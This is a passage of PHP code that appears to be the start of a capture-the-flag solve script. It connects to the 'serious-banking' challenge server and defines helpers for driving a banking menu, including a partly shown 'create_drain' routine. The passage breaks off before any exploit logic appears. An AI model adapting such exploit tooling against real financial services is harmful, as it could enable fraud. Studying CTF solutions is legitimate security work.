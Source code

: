 ```php

function expect($fp, string $str)
{
	$data = fread($fp, strlen($str));
	expect_check($str, $data);
}

function expectLine($fp, string $line)
{
	$data = fgets($fp);
	expect_check("$line\n", $data);
}

function line($fp) : string
{
	$line = fgets($fp);

	if("\n" !== substr($line, -1))
		throw new Exception("fgets did not return a line");

	return substr($line, 0, -1);
}

printf("[*] Opening connection\n");
$time = microtime(true);

$fp = fsockopen("serious-banking.chal.irisc.tf", 10001);
expectLine($fp, "== proof-of-work: disabled ==");

printf("[+] Done in %f seconds\n", microtime(true) - $time);
printf("\n");

function menu($fp) : string
{
	expectLine($fp, "Welcome to the ShakyVault Bank Interface");
	$line = line($fp);

	expectLine($fp, "1) Create new Account");
	expectLine($fp, "2) Show an Account");
	expectLine($fp, "3) Create a Transaction");
	expectLine($fp, "4) Deactivate an Account");
	expectLine($fp, "5) Create a support ticket");
	expectLine($fp, "6) Exit");
	expect($fp, "> ");

	return $line;
}

function create($fp, string $name)
{
	fprintf($fp, "1 %s\n", $name);
}

function create_drain($fp, int $id = null) : int
{
	menu($fp);
	expect($fp, "Account Name: ");

	expect($fp, "Account created. Your id is ");

	if(null !== $id)
		expectLine($fp, $id);
	else
```